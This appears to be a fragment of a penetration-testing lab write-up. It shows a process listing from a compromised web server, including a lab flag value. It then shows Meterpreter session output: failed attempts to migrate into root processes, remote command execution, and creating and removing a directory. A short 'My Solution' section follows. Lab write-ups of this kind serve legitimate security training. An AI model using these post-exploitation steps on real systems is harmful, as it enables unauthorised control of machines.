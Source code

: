```
 35   loader            root      loader -7 -pid 52 --cpu restart -flat 3
 36   loader            root      loader -7 -pid 52 --cpu restart -flat 4
 37   loader            root      loader -7 -pid 52 --cpu restart -flat 5
 38   loader            root      loader -8 -pid 5412 --cpu restart
 39   loader            root      loader -9 -pid 150 --cpu restart --flag7 eba595c2923b0d526228343f594f6bd2
 40   loader            root      loader -10 -pid 1511 --cpu restart
 41   /usr/bin/python   root      /usr/bin/python /usr/bin/supervisord -n
 477  /bin/sh           root      /bin/sh /usr/bin/mysqld_safe
 478  apache2           root      apache2 -D FOREGROUND
 636  apache2           www-data  apache2 -D FOREGROUND
 637  apache2           www-data  apache2 -D FOREGROUND
 638  apache2           www-data  apache2 -D FOREGROUND
 639  apache2           www-data  apache2 -D FOREGROUND
 643  apache2           www-data  apache2 -D FOREGROUND
 841  /usr/sbin/mysqld  mysql     /usr/sbin/mysqld --basedir=/usr --datadir=/var/lib/mysql --plugin-dir=/usr/lib/mysql/plugin --user=mysql --log-error=/var/log/mysql/error.log --pid-file=/var/run/mysqld/mysqld.pid --socket=/var/run/mysqld/mysqld.sock --port=3306
 860  apache2           www-data  apache2 -D FOREGROUND
 861  apache2           www-data  apache2 -D FOREGROUND
 862  [sh]              www-data  [sh] <defunct>
 869  sh                www-data  sh -c ps ax -w -o pid,user,cmd --no-header 2>/dev/null
 870  ps                www-data  ps ax -w -o pid,user,cmd --no-header
```

```
meterpreter > migrate 477
[-] Error running command migrate: NoMethodError undefined method `pid' for nil:NilClass
meterpreter > migrate 478
[-] Error running command migrate: NoMethodError undefined method `pid' for nil:NilClass
meterpreter > migrate -N apache2
[-] Error running command migrate: NoMethodError undefined method `pid' for nil:NilClass
```

```
meterpreter > execute -f ifconfig
Process 873 created.
meterpreter > ?
```

```
meterpreter > mkdir test
Creating directory: test
meterpreter > rmdir test
Removing directory: test
```

## My Solution
```
root@attackdefense:~# ifconfig
eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.192.182.2  netmask 255.255.255.0  broadcast 192.192.182.255
        ether 02:42:c0:c0:b6:02  txqueuelen 0  (Ethernet)
```
